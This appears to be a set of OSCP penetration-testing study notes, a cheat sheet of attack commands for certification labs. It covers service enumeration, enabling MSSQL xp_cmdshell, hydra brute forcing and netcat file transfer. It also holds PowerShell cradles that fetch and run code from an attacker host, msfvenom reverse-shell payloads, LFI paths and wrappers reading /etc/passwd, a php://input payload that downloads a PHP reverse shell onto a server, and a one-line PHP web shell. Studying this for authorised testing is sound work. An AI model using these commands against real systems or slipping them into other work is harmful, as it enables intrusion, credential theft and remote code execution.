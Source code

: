 # OSCP-NOTES
## Enumeration
1. Ports
```
port 21 — FTP (File Transfer Protocol)
port 22 — SSH (Secure Shell)
port 23 — Telnet
port 25 — SMTP (Simple Mail Transfer Protocol)
port 53 — DNS (Domain Name System)
port 443 — HTTP (Hypertext Transport Protocol) and HTTPS (HTTP over SSL)
port 110 — POP3 (Post Office Protocol version 3)
port 135 — Windows RPC
ports 137–139 — Windows NetBIOS over TCP/IP
port 1433 and UDP port 1434 — Microsoft SQL Server
```
* Port 21 FTP
```
ftp <ip>
nc <ip> 21
```
* Port 22 SSH
```
nc -w <ip> 22
```
* Port 25 SMTP
```
nc -w <ip> 25
telnet <ip> 25
* VRFY <user>
```
* Port 53
```
nslookup
*server <ip>
*<ip>
dig axfr <domain_name> @<ip> 
```
* Port 110 POP3
```
telnet <ip> 110
* USER <username>
* PASS <password>
* list #list mails
* retr #cd
```
* Port 139 & 445 SMB
```
#check list
smbclient -L <ip>
enum4linux -a <ip>
smbmap -H <ip>
#Login
smbclient //<ip>/<filename> -U <username>
```
* Port 1433 MsSQL
```
sqsh -S <ip> -U <username> or sqsh -S <ip> -U <username> -P "<password>"
* 1> EXEC SP_CONFIGURE N'show advanced options', 1
* 2> go
Configuration option 'show advanced options' changed from 1 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> EXEC SP_CONFIGURE N'xp_cmdshell', 1
* 2> go
Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
(return status = 0)
* 1> RECONFIGURE
* 2> go
* 1> xp_cmdshell 'dir C:\';
* 2> go
```
## Testing
* SSH login
```
ssh <username@ip> 
```
* Password Decrypt
  * Decode Base64 Encoded Values
  ```
  echo -n "QWxhZGRpbjpvcGVuIHNlc2FtZQ==" | base64 --decode
  ```
  * Decode Hexidecimal Encoded Values
  ```
  echo -n "46 4c 34 36 5f 33 3a 32 396472796 63637756 8656874" | xxd -r -ps
  ```
  * GPP Password
  ```
  gpp-decrypt <code>
  ```
* Send a file using netcat
  * send    
  ```
  nc -nlvp <ip> < <filename>
  ```
  * receive 
  ```
  nc -w 3 <ip> > <outputfilename>
  ```
* Brute Force
  ```
  hydra -l <user.txt> -p <pass.txt> <ip> ssh
  hydra -l root -P <password.txt> <ip> telnet  
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> ftp
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <ip> -V http-form-post "/login.php:<request>:<wrong_message>''"
  ```
 * Powershell Download
 ```
 powershell -c "(new-object System.Net.WebClient).DownloadFile('http://<LHOSTIP>/<filename>', '<Location\filename>')"
 powershell -c CreateObject("WScript.Shell").Exec("cmd /c powershell IEX(New-Object Net.WebClient).DownloadString('http://<LHOSTIP>/<filename>')")
 powershell -c "Invoke-WebRequest -Uri <LHOSTIP>/<filename> -Outfile <Location\filename>"
 ```
 * Msfvenom
 ```
 windows/shell/reverse_tcp 
 windows/x64/shell/reverse_tcp
 ------------------------------->exe,asp,aspx
 linux/x86/shell/reverse_tcp
 linux/x64/shell/reverse_tcp
 ------------------------------->elf
 java/jsp_shell_reverse_tcp > war,jsp
 php/reverse_php > php
 ```
* LFI
```
/etc/passwd
/etc/passwd%00 # null byte terminate
../../../../../../etc/passwd%00 # directory traversal
php://filter/convert.base64-encode/resource=/etc/php5/apache2/php.ini%00 
expect://whoami # expect wrapper, direct code execution, not enabled by default
php://input # php code execution, send php code in POST data `<? system('wget http://192.168.183.129/php-reverse-shell.php -O /var/www/shell.php');?>`
/proc/self/environ # if readable, write php code in "User Agent" data, and it'll appear within environ
/proc/self/fd/0 # if readable, write php code in "referer" data, and it'll appear within file descriptor. make sure to brute force the fd number 0-10+
/var/lib/php/session s
/tmp/ 
```
* RFI
```
<?php echo shell_exec($_GET['cmd']);?>
```
